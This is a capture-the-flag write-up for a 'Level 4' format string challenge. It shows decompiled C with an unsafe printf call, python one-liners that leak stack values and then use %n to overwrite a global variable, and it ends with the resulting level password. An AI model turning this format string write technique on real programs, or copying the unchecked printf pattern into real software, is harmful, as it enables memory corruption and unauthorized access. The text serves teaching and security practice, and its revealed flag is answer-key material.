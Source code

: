 # Level 4: Format String Exploitation - The Sequel

## Challenge Overview

Level4 continues where level3 left off, presenting another format string vulnerability. This time we need to write the value (0x1025544) to a global variable to reveal the password for the next level.

## Source Code Analysis

Using Ghidra, we get a source code of the binary that looks like this:

```c
#include <stdio.h>
#include <stdlib.h>

// Global variable at address 0x08049810
int target_value = 0;

void print_string(char *user_input)
{
  printf(user_input);
  return;
}

void get_user_input(void)
{
  char buffer[520];

  fgets(buffer, 0x200, stdin);
  print_string(buffer);
  if (target_value == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

int main(void)
{
  get_user_input();
  return 0;
}
```

## The Vulnerability

The vulnerability is in the `print_string()` function which directly passes user input to `printf()` without format specifiers. This creates a format string vulnerability that allows us to read from and write to memory.

## The Exploitation Strategy

### 1. Finding the Target Address

First, we need to determine the memory address of the `target_value` global variable:

- Through Ghidra analysis, we identified it at address 0x08049810

### 2. Locating Parameter Positions

We need to determine where our address will be positioned in the printf parameter list:

```bash
(python -c 'print "\x10\x98\x04\x08" + "%p %p %p %p %p %p %p %p %p %p %p %p"') | ./level4
```

Output:

```
0xb7ff26b0 0xbffff684 0xb7fd0ff4 (nil) (nil) 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049810
```

This shows our target address at position 12.

### 3. Exploit strategy

We'll use the format string vulnerability to:

1. Place the target address at the beginning of our input
2. Use the direct parameter access feature (`%n$`) to make printf write to that address
3. Print exactly 16,930,116 characters (decimal for 0x1025544) before the write operation

The `%n` format specifier writes the number of characters printed so far to the address specified by the corresponding argument.

### 4. The Complete Exploit

```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112c%12$n"') | ./level4
```

This command:

1. Places the address (0x08049810) at the beginning of the input
2. Uses the `%16930112c` format to print 16,930,112 characters
3. The 4 bytes from our address at the beginning add 4 more characters, bringing the total to 16,930,116
4. Finally, `%12$n` writes this count (16,930,116 = 0x1025544) to the 12th argument, which is our target address

When this exploit runs successfully, the condition `target_value == 0x1025544` becomes true, and we get the password for level5:

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
